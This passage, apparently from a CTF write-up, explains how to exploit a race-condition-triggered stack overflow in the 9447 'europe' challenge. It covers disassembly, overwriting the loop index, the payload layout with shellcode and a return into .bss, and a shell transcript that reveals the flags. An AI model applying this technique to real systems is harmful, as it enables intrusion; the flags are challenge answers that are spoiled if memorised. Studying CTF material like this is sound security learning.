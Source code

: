 To sum it up we now have a buffer overflow that we can trigger by winning the race and writing an overly long username. Stack canaries are disabled so this should be relatively easy.\\
It mostly is, however, there's a little catch. Check the disassembly:

    08048fdf C745F400000000         mov        dword [ss:ebp+curr_index], 0x0
    08048fe6 EB27                   jmp        0x804900f

    08048fe8 8B45F4                 mov        eax, dword [ss:ebp+curr_index]
    08048feb 05A0C90408             add        eax, 0x804c9a0              ; username_buf
    08048ff0 0FB600                 movzx      eax, byte [ds:eax]
    08048ff3 0FBEC0                 movsx      eax, al
    08048ff6 890424                 mov        dword [ss:esp], eax
    08048ff9 E8C2FCFFFF             call       xor_20
    08048ffe 8D8D14FAFFFF           lea        ecx, dword [ss:ebp+local_buf]
    08049004 8B55F4                 mov        edx, dword [ss:ebp+curr_index]
    08049007 01CA                   add        edx, ecx
    08049009 8802                   mov        byte [ds:edx], al
    0804900b 8345F401               add        dword [ss:ebp+curr_index], 0x1

    0804900f 8B45F4                 mov        eax, dword [ss:ebp+curr_index]
    08049012 05A0C90408             add        eax, 0x804c9a0              ; username_buf
    08049017 0FB600                 movzx      eax, byte [ds:eax]
    0804901a 84C0                   test       al, al
    0804901c 75CA                   jne        0x8048fe8

Here curr_index is the index into the source and destination buffers and is located at [ebp-0xc]. The destination buffer however starts at [ebp-0x5ec], so we will eventually overwrite the current index value. Now, if we overwrite it with some value smaller than it's current value the loop will go back to a previous index effectively causing an infinite loop.\\
By the time we hit the first byte of curr_index, it's value will be 0x5e1, so the easiest way around this is to just write 0x5e1 at that point. Note that we can write zero bytes here since the bytes will be xored with 0x20 first :)

Putting it all together the exploit will do the following:

1. Start a login as guest:guest
2. Start a second login with *payload*:whatever
3. Trigger the overflow by letting the main thread print us the message
4. Cause the main function to return by quitting the program

*payload* will contain the shellcode to execute, then some padding up to 0x5e0 bytes followed by the value (0x5e1 xor 0x20202020), some more padding up to the return address and finally the encoded return address. The exploit will just return to the username_buf in the .bss (which is executable as we've seen at the beginning).

Here's the output of running the exploit against the ctf server:

    > ./exploit_europe.py
    ...........................Pwned!
    whoami
    ctf
    pwd
    /home/ctf
    cat flag01
    9447{Th1s_wa5nT_loCk3d_d0wn_En0ugH}
    cat flag02
    9447{Th3_gRe4t_1eAK_0f_eUr0p3}
    cat flag03
    9447{c0n6rat5_oN_Conquer1ng_Europ3}
